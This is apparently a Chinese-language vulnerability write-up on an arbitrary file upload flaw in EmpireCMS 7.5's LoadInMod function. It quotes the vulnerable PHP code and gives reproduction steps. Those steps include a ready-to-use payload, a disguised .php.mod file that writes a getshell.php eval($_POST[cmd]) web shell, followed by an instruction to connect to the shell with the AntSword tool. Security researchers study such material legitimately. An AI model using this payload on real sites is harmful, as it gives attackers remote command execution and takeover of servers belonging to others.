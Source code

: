 EmpireCMS7.5 版本中的 / e/class/moddofun.php 文件的”LoadInMod” 函数存在安全漏洞, 攻击者可利用该漏洞上传任意文件。

### 源码分析

主要漏洞代码位置

// 导入模型

```
//导入模型elseif($enews=="LoadInMod"){    $file=$_FILES['file']['tmp_name'];    $file_name=$_FILES['file']['name'];    $file_type=$_FILES['file']['type'];    $file_size=$_FILES['file']['size'];    LoadInMod($_POST,$file,$file_name,$file_type,$file_size,$logininid,$loginin);}
```

转到 LoadInMod 定义

在 localhost/EmpireCMS/e/class/moddofun.php 找到上传文件的定义

```
//上传文件    $path=ECMS_PATH."e/data/tmp/mod/uploadm".time().make_password(10).".php";    $cp=@move_uploaded_file($file,$path);    if(!$cp)    {        printerror("EmptyLoadInMod","");    }    DoChmodFile($path);    @include($path);    UpdateTbDefMod($tid,$tbname,$mid);
```

文件包含

上传文件处使用 time().makepassword(10) 进行加密文件名

```
//取得随机数function make_password($pw_length){    $low_ascii_bound=48;    $upper_ascii_bound=122;    $notuse=array(58,59,60,61,62,63,64,91,92,93,94,95,96);    while($i<$pw_length)    {        if(PHP_VERSION<'4.2.0')        {            mt_srand((double)microtime()*1000000);        }        mt_srand();        $randnum=mt_rand($low_ascii_bound,$upper_ascii_bound);        if(!in_array($randnum,$notuse))        {            $password1=$password1.chr($randnum);            $i++;        }    }    return $password1;}
```

下方代码 @include($path) 直接包含文件，因此可以通过添加创建文件的代码绕过。

### 漏洞复现

来到导入系统模型的页面

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOeudiasvEiau1Ovx2KnWyybJnBgZRibbveTib87ckvJISljrcsklTWDIcvg/640?wx_fmt=png)

本地准备一个 1.php 并改名为 1.php.mod，注意这里需要用 \$ 进行转义，存放的数据表名需要填一个数据库内没有的表名，点击上传

```
<?php file_put_contents("getshell.php","<?php @eval(\$_POST[cmd]); ?>");?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOn3CkZhFPW4vm1UiciaL88mlzfgeuiaDFk8cgnSI4RNpbbjHKrxkmDzrzg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzObo8Xviay6Uh5iaIR06YM83s14WpQw13diaLicv3lS7B9vFicQU7k4t67W4A/640?wx_fmt=png)

导入成功后访问一下生成 shell 看能不能访问得到，没有报错是可以访问到的，那么证明已经上传成功了

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzO7LCicafTGhrbnJCyiaBtG66icQopr7q4fvrOyQSQLjakyXSCANaAvnT6A/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOHiaKqkPLklZia5qZUue7OSpV2fIkdBHgyxiaZ3vIytKJv4fk7ukoRy2EQ/640?wx_fmt=png)

再用蚁剑连接即可
